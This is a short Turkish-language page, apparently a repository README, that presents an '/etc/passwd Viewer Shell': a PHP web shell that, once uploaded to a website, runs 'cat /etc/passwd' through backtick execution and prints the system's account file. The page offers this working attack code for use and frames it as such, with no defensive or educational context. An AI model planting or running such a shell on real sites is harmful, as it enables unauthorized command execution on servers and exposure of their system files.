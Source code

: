 # etc/passwd Viewer Shell
Shellin yüklendiği sitenin /etc/passwd bölümünü okur ve ekrana yazdırır.

Nasıl yaptığımı merak edenler için : 

$islem = `cat /etc/passwd`;
echo $islem;

/etc/passwd dizinini okur ve ekrana yazdırır.

